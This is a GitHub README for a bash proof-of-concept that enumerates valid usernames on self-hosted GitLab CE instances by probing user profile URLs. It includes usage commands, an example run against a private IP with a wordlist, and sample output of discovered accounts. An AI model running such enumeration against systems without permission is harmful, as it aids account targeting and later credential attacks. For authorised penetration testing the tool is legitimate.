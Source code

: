# <img src="https://camo.githubusercontent.com/92155145d11c0c16b6d804cf10407c691d134283ced40c36ceecfb885b8b655c/68747470733a2f2f6564656e742e6769746875622e696f2f537570657254696e7949636f6e732f696d616765732f7376672f6769746c61622e737667" height=40 width=40> gitlab_user_recon
<img src="https://img.shields.io/badge/bash-script-orange">    <img src="https://img.shields.io/badge/user-enumeration-brightgreen">    <img src="https://img.shields.io/badge/Tested%20on-Kali%20Linux%202021.1-blueviolet">    <img src="https://img.shields.io/badge/GitLab%20CE-13.10.3-blue">    <img src="https://img.shields.io/badge/version-1.0-ff69b4">

This is a tool that can help ethical hackers or penetration testers to find automatically the usernames that exist on a self hosted instance of GitLab CE (Community Edition) from their targets' network. 

## Disclaimer
*Do not run this script against  <a href="https://gitlab.com">Gitlab.com</a> ! Also keep in mind that this PoC is meant only for educational purpose and ethical use. Running it against systems that you do not own or have the right permission is totally on your own risk.*

## Technical Analysis
GitLab's path `http://<gitlab>/<username>` can help an intruder to find its valid usernames. Basically this scrpit will test various usernames in the mentioned URL to find valid usernames of GitLab. 

## How To Install
```
git clone https://github.com/RNPG/gitlab_user_recon.git
```

## How To Use
```
PARAMETERS:
-------------
-u/--url        The URL of your victim's GitLab instance
--userlist      Path to a username wordlist file (one per line)
-h/--help       Show this help message and exit
```
```
chmod +x gitlab_user_recon.sh
./gitlab_user_recon.sh --url <URL> --userlist <Username Wordlist>
```
#### Usage Example:

`./gitlab_user_recon.sh --url http://192.168.10.10:8181 --userlist /root/Desktop/usernames.txt`

```
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
                                     GitLab User Enumeration Script
                                             Version 1.0

Description: It prints out the usernames that exist in your victim's GitLab CE instance

Disclaimer: Do not run this script against GitLab.com! Also keep in mind that this PoC is meant only
for educational purpose and ethical use. Running it against systems that you do not own or have the
right permission is totally on your own risk.

Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


[+] The username root exists!
[+] The username mysql exists!
[+] The username robert exists!
[+] The username adonis exists!
                                    
```



